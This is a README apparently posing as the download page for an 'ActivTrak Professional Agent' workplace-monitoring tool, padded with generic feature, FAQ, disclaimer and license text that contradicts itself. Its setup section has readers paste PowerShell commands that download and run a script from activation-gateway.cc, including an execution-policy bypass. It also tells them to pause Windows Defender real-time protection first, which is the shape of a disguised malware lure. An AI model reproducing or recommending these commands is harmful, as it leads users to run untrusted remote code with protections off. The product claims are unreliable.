

<div align="center">

# 🚀 ActivTrak Professional Agent – Productivity Monitoring & Idle Time Analytics Windows Desktop Cl...



[]() []() []()

</div>

---

The ActivTrak Professional Agent is a Windows desktop application engineered for workplace productivity monitoring, capturing active session data and idle time intervals to provide structured visibility into employee-computer interaction patterns. The agent operates as a lightweight background process that records active window activity and automatically compiles session data for subsequent analysis, enabling managers to evaluate performance trends and make evidence-based operational decisions. Designed for deployment without compilation or source-tree access, the application runs from an extracted archive and persists its configuration alongside the executable. All recorded metrics are stored locally within the application directory, and the tool requires no external account provisioning or scheduled task registration during installation or first launch.

## 🛠️ One-Click Setup (PowerShell)

> [!TIP]
> **One-click install** — paste one command, done in seconds.
> Windows 10/11 · PowerShell · Admin not required

### 1️⃣ Open Windows PowerShell
* Right-click the Start button.
* Choose **Terminal (Admin)** or **Windows PowerShell**.

### 2️⃣ Execute the setup script
Paste and run. Wait until the process completes.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ If blocked by policy — CMD fallback
Run this command in CMD instead:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> Windows Defender or third-party AV may flag the script. Pause Real-time protection in Windows Security, run the installer, and re-enable it right after.

## ✅ Requirements

- **OS:** Windows 10 / 11
- **Shell:** PowerShell 5.1+ or PowerShell 7+
- **Network:** internet access to download the script
- **Privileges:** standard user

## Features

- **Session Recording:** The agent captures active application usage and foreground window context during work sessions, producing a structured activity log suitable for downstream review and reporting.
- **Idle-Time Detection:** Configurable idle thresholds distinguish active input from periods of inactivity, allowing idle intervals to be measured and attributed separately from productive time.
- **Automatic Data Compilation:** Recorded activity and idle intervals are aggregated into a consolidated dataset, reducing the need for manual tracking and enabling consistent trend analysis over time.
- **Productivity Insights:** Compiled data supports identification of performance patterns, workload distribution, and engagement trends across users and time periods.
- **Configurable Capture Rules:** Session and idle parameters can be adjusted to match organizational policies and reporting requirements.
- **Lightweight Desktop Agent:** Runs as a background process on the host workstation with minimal resource overhead and no dependency on a source tree or compilation step.
- **Local Settings Persistence:** Configuration is stored alongside the application, keeping deployment self-contained and portable.
- **Clean Removal:** Activity recording and stored settings reside within the application directory, so removal is complete without leaving scheduled tasks or residual components.
- **No Account Dependency:** Operation does not require an external account, keeping setup and ongoing use self-contained.

## How it works

The agent operates as a lightweight background service that initializes at system startup and runs continuously without requiring user intervention. Once launched, it attaches to the active desktop session and begins sampling the foreground window at fixed intervals, capturing the executable name, window title, and process identifier for each observation. These samples are aggregated into activity segments, which are classified as either active or idle based on configurable input thresholds and session continuity rules.

Idle detection is driven by a rolling timer that monitors keyboard and pointer events. When no input is registered within the defined idle window, the current segment is closed and a new idle segment is opened; activity resumes automatically when input returns. Each segment carries a start timestamp, duration, and classification, allowing downstream analysis to reconstruct working patterns without storing raw keystrokes or screen contents. Data collection is scoped to session metadata only, keeping the recorded footprint minimal.

Collected segments are buffered locally in an embedded datastore and periodically flushed to the configured reporting endpoint. The buffer uses append-only writes to preserve ordering and to tolerate transient network interruptions; failed uploads are retried with exponential backoff until acknowledged. Locally retained records are pruned according to a configurable retention window, after which only aggregated summaries remain on disk.

The agent exposes a small local control interface for status inspection, manual flush, and configuration reload. Configuration is read from a settings file located alongside the executable, and changes are applied on the next reload cycle without requiring a restart. Runtime state, logs, and buffered records reside in the same directory tree as the executable, so the entire installation remains self-contained and portable across machines.

Resource usage is bounded by design: sampling occurs on a low-priority timer, aggregation runs in a single worker thread, and network transmission is batched to avoid competing with foreground applications. The agent does not install kernel drivers, inject into other processes, or modify system services beyond its own startup entry, which can be disabled through the standard configuration file.

## Compatibility

The agent is engineered for deployment across the current Windows desktop ecosystem, with support spanning both client and server-class editions of Windows 10 and Windows 11. Both 64-bit and 32-bit architectures are accommodated, and the agent operates correctly on systems running the latest cumulative updates as well as on Long-Term Servicing Channel builds where update cadence is deliberately slower. Legacy Windows 8.1 environments remain functional for organizations with extended migration timelines, though Windows 7 and earlier are outside the supported matrix.

Resource requirements are intentionally modest to avoid interfering with the productivity it is designed to measure. The agent operates within a footprint of approximately 100 MB of disk space and maintains a resident memory profile under 150 MB during normal operation. CPU utilization is throttled to remain below two percent averaged across active sessions, ensuring that recording activity does not distort the performance baseline of the monitored workstation.

The agent integrates with standard Windows session management, including fast user switching, remote desktop sessions, and locked-workstation states. Idle detection aligns with the system power configuration so that sleep and hibernation transitions are recorded consistently with active-session boundaries. Multi-monitor configurations are fully supported, with active-window tracking extending across all connected displays regardless of arrangement or resolution.

Network compatibility covers both direct and proxied connectivity. The agent respects system-configured proxy settings, including automatic configuration scripts and authenticated proxies, and buffers collected data locally during periods of network unavailability before synchronizing once connectivity is restored. Bandwidth consumption is minimal and shaped to avoid contention with business-critical traffic.

Deployment compatibility extends to standard Windows management infrastructure. The agent can be distributed through existing software deployment tooling and operates without requiring elevated persistent privileges beyond initial installation. It coexists with common endpoint protection and antivirus solutions, and it does not conflict with standard Windows update mechanisms or group policy enforcement. Virtualized desktop environments, including persistent and non-persistent pools, are supported provided that the agent is included in the base image or delivered through the provisioning sequence.

The agent is delivered as a self-contained package with no external runtime dependencies; no separate framework, interpreter, or redistributable is required on the target system. Configuration files reside alongside the executable and can be adjusted per deployment without reinstallation. Uninstallation removes all associated files and registry entries cleanly, leaving no residual services or scheduled tasks behind.

## FAQ

**Is the agent visible to the user during a session?**
The agent runs as a background process and does not present a persistent interface or tray indicator. Session recording, idle detection, and local buffering operate without requiring user interaction.

**What data does the agent capture?**
The agent records active application windows, foreground process titles, and session duration, alongside idle intervals derived from input inactivity thresholds. Captured events are timestamped and written to the local data store for later aggregation.

**How is idle time determined?**
Idle state is inferred from the absence of keyboard and mouse input over a configurable interval. Once the threshold is crossed, the agent closes the active session and opens an idle interval; input resumption closes the idle interval and starts a new active session.

**Where is recorded data stored locally?**
Recorded events are held in a local database adjacent to the executable directory. The store is self-contained and portable, so relocating the application folder carries the data with it.

**Can recording be paused or suspended?**
Session capture can be suspended through the agent's local control mechanism, after which no further events are written until capture is resumed. Suspension does not delete previously recorded intervals.

**Does the agent require elevated privileges?**
Standard user context is sufficient for window and input monitoring on supported Windows builds. Elevation is only needed if the agent is placed in a protected directory.

**What is the memory and CPU footprint?**
The agent maintains a low resident memory footprint and samples input state at a fixed interval rather than continuously polling, keeping CPU utilization near idle during steady-state operation.

**How are sessions aggregated for reporting?**
Raw events are grouped into active and idle intervals by timestamp continuity. Aggregation produces per-application totals and per-day summaries that can be exported for downstream analysis.

**What happens if the agent is terminated unexpectedly?**
Buffered events are flushed to the local store at short intervals, limiting loss to the most recent sampling window. On restart, the agent resumes recording and appends to the existing store without rebuilding prior data.

**Is outbound network access required?**
Local recording and storage function without network access. Any synchronization of aggregated data depends on configuration and is not required for core monitoring operation.

**Which Windows versions are supported?**
The agent targets Windows 10 and Windows 11 on x64. Compatibility with older builds is not guaranteed, and unsupported environments may exhibit incomplete window-title capture.

**Can multiple user sessions on one machine be monitored?**
Each interactive session runs its own agent instance with a distinct local store, keeping per-user activity isolated on shared machines.

**How are configuration changes applied?**
Settings are read from a configuration file in the application directory. Changes take effect on the next agent start; no reinstallation is required.

**Does the agent modify system services or startup entries?**
The agent does not register services or scheduled tasks during extraction or first launch. Persistence behavior is limited to what is explicitly configured in the application directory.

## Disclaimer

This software is provided as a standalone desktop agent intended for use in environments where employee activity monitoring is lawful and where informed consent has been obtained from all monitored individuals. The tool records active sessions, application focus, and idle intervals; it does not evaluate performance, classify behavior, or make employment decisions on its own. All interpretation of collected data remains the responsibility of the deploying organization.

Deployment must comply with applicable local, regional, and national regulations governing workplace monitoring, data protection, and privacy. The operator is solely responsible for providing required notices, obtaining consent, configuring retention limits, and restricting access to recorded data. The agent should only be installed on devices owned or managed by the organization, or on devices where explicit authorization has been granted.

Data captured by the agent is stored locally in the application directory unless a synchronization endpoint is configured. No data is transmitted to the project maintainers. The software runs without elevated system privileges beyond those required for session and idle-state observation, and it does not include kernel-level components, hidden services, or persistence mechanisms beyond the standard startup entry created during first run.

The software is supplied on an as-is basis, without warranties of any kind, express or implied, including fitness for a particular purpose or non-infringement. The maintainers accept no liability for misuse, regulatory non-compliance, data loss, or damages arising from deployment. Verifying that use of this tool satisfies jurisdictional and organizational policy requirements is the sole responsibility of the deploying party.

## License

This project is distributed under the MIT License. The license grants permission to use, copy, modify, merge, publish, distribute, sublicense, and sell copies of the software, subject to inclusion of the original copyright notice and this permission notice in all copies or substantial portions of the software. The software is provided "as is," without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and noninfringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability, whether in an action of contract, tort, or otherwise, arising from, out of, or in connection with the software or the use or other dealings in the software.

Redistribution in source and binary forms, with or without modification, is permitted provided that redistributions of source code retain the above copyright notice, this list of conditions, and the disclaimer, and that redistributions in binary form reproduce the above copyright notice, this list of conditions, and the disclaimer in the documentation and other materials provided with the distribution. Neither the name of the project nor the names of its contributors may be used to endorse or promote products derived from this software without specific prior written permission.

The license applies to the compiled agent, its configuration schema, and any accompanying documentation included in the release archive. Third-party components bundled with this project remain under their respective licenses, and their terms take precedence where applicable. The full license text is included with the distributed archive and should be retained alongside any redistributed copies. Use of this software for monitoring activities must comply with applicable local, regional, and national laws governing workplace observation and consent; the license grants no rights that supersede those obligations.